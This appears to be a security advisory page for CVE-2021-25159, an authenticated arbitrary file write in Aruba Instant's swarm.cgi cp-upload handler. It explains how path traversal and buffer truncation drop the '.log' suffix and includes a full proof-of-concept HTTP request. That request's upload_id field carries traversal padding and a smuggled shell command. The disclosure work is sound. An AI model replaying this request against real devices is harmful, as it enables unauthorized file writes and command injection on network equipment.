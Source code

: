 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.7 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.1 and below'


severity: 'moderate'
alephid: ALEPH-2021007
cve: CVE-2021-25159
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Arbitrary File Write via Web UI (cp-upload)'

---
```

After creating "/tmp/oper_" directory with @CVE-2021-25158 an attacker can create a fixed content file with an arbitrary name in any path.

When trying to upload a logo via swarm.cgi (cp-upload) a log file will be created with the format "/tmp/oper_%s.log". The param upload_id will be formatted into the format string.

With upload_id == '/../../etc/httpd/test.txt' the final string that will be built is '/tmp/oper_/../../etc/httpd/test.txt.log'. To upload an arbitrary file we can pad the filename with additional '/' as separators until the buffer overflow and the .log will be opt-out.

![](/assets/img/aruba/snprintf_after_diagram.png)

## POC:
```
POST /swarm.cgi HTTP/1.1
Host: IP:4343
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------126192314137246243462522101405
Content-Length: 961
Origin: https:// IP:4343
Connection: keep-alive
Referer: https:// IP:4343/
Cookie: sid=XXXXXXXXXXXXXXXXXXXX; login=undefined; password=undefined; userType=admin
Upgrade-Insecure-Requests: 1
 
-----------------------------126192314137246243462522101405
Content-Disposition: form-data; name="opcode"
 
cp-upload
-----------------------------126192314137246243462522101405
Content-Disposition: form-data; name="file_type"
 
logo
-----------------------------126192314137246243462522101405
Content-Disposition: form-data; name="upload_id"
 
/../../../etc/httpd/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'; ps #aaaaaaaaaaaaaaaaaaa.gz
-----------------------------126192314137246243462522101405
Content-Disposition: form-data; name="sid"
 
AAAAAAAAAA
-----------------------------126192314137246243462522101405
Content-Disposition: form-data; name="file"; filename="test"
Content-Type: application/octet-stream
 
AAAAAAAAAA
 
 
-----------------------------126192314137246243462522101405--
```